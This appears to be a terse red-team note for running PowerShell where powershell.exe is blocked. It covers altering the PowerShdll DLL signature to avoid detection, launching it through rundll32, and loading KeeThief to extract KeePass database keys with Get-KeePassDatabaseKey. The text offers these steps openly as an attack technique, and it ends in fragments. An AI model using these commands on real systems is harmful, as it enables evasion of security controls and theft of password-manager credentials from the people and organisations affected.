

So in the situation we are not able to execute powershell.exe

This tool will allow us to bypass this annoying hinderance ;)
https://github.com/p3nt4/PowerShdll- (only need the release)
The exe is not generally a viable option so we can use the ps1 file instead
1. Changing the dll signature (related article in folder)
2. import the PowerShdll.dll file with modifiedsignature
3. CMD > rundll32.exe PowerShdll.dll, main
**If this worked correctly a new shell should pop | This shell should accept powershell commands**
- *load it*
- > . ".\KeeThief.ps1"
> Get-KeePassDatabaseKey
This can be done with any ps1 module but using KeeThief as an example
Conjoining all payload related files